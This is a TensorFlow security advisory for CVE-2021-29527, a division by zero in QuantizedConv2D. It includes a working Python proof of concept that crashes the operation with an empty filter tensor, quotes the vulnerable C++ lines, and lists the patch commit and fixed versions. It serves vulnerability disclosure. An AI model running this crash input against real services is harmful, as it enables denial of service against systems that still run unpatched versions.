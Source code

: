 ## TFSA-2021-016: Division by 0 in `QuantizedConv2D`

### CVE Number
CVE-2021-29527

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.QuantizedConv2D`:

```python
import tensorflow as tf

input = tf.zeros([1, 1, 1, 1], dtype=tf.quint8)
filter = tf.constant([], shape=[1, 0, 1, 1], dtype=tf.quint8)
min_input = tf.constant(0.0)
max_input = tf.constant(0.0001)
min_filter = tf.constant(0.0)
max_filter = tf.constant(0.0001)
strides = [1, 1, 1, 1]
padding = "SAME"


tf.raw_ops.QuantizedConv2D(input=input, filter=filter, min_input=min_input, max_input=max_input, min_filter=min_filter, max_filter=max_filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/00e9a4d67d76703fa1aee33dac582acf317e0e81/tensorflow/core/kernels/quantized_conv_ops.cc#L257-L259) does a division by a quantity that is controlled by the caller:

```cc
const int filter_value_count = filter_width * filter_height * input_depth;
const int64 patches_per_chunk = kMaxChunkSize / (filter_value_count * sizeof(T1));
```

### Patches
We have patched the issue in GitHub commit
[cfa91be9863a91d5105a3b4941096044ab32036b](https://github.com/galeone/tensorflow/commit/cfa91be9863a91d5105a3b4941096044ab32036b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.

